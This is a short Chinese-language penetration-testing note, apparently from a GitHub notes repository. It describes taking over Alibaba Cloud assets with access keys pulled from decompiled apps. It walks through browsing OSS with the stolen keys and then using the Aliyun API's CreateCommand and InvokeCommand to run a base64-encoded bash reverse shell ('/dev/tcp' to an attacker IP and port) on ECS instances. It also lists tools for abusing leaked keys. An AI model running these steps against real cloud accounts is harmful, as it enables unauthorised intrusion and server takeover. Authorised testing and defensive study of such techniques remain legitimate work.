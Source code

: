 	反编译app文件，查找可能会包含oss key的文件，如JS。
	OSSAccessKey、AccessKeySecret使用OSS浏览器访问。
	第三方行云管家可修改系统密码。
	反弹shell
	From: https://xz.aliyun.com/t/8310
	https://api.aliyun.com/#/?product=Ecs
	搜索框搜索选择CreateCommand来创建一个命令
	CommandContent填命令的base64，Type填RunShellScript
	命令echo "bash -i >& /dev/tcp/你的IP/端口 0>&1"| base64
	bash -i >& /dev/tcp/你的IP/端口 0>&1
	YmFzaCAtaSAmZ3Q7JiAvZGV2L3RjcC8xLjEuMS4xLzQ0NDQgMCZndDsmMQ==
	填好以后点调试SDK
	会直接给你起一个Cloud shell
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/842.png)

	并创建一个CreateCommand.py文件，使用vi编辑
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/843.png)

	填accessKeyId,accessSecret保存执行，并记录Commandid
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/844.png)

	再次在搜索框搜索InvokeCommand
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/845.png)

	Commandid填上面请求的返回值，InstanceId填行云管家显示的实例ID
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/846.png)

	填好了点调试sdk然后编辑文件把accessKeyId accessSecret填一下，执行
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/847.png)

	然后看监听的服务器shell已经反弹成功
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/848.png)

  ####工具
	https://github.com/iiiusky/alicloud-tools
	https://github.com/mrknow001/aliyun-accesskey-Tools